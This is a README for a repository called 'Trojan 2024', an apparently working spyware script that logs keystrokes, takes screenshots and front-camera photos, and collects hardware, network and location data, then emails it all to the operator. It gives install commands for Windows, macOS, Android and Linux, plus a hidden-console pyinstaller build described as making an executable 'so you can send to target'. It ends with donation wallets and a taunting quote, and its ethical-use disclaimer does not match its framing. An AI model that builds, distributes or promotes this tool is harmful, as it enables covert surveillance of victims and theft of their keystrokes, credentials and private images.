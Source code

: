 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :

Screenshots
Keystrokes
Hardware and network information
Geolocation data
Front camera captures
All data is securely delivered via email for your convenience.


Key Features
Screenshot Capture: Automatically captures desktop activity every 60 seconds.
Keylogging: Records typed text at configurable intervals.
Hardware Information: Retrieves details like CPU, GPU, and RAM specs.
Network Data: Captures IP addresses, MAC addresses, and more.
Geolocation Tracking: Provides approximate location details.
Camera Access: Takes images using the front camera (if available).


Installation and Setup
Windows
Open PowerShell or Command Prompt.
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
pip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
Install Termux from F-Droid or the Google Play Store.
Update packages
pkg update && pkg upgrade
pkg install git python
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojanpip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
Email Configuration
During setup, you’ll need to provide:

The sender email.
The app password (generated through your email provider).
The recipient email address for receiving data.
Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.

Support
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2
Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea
Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."
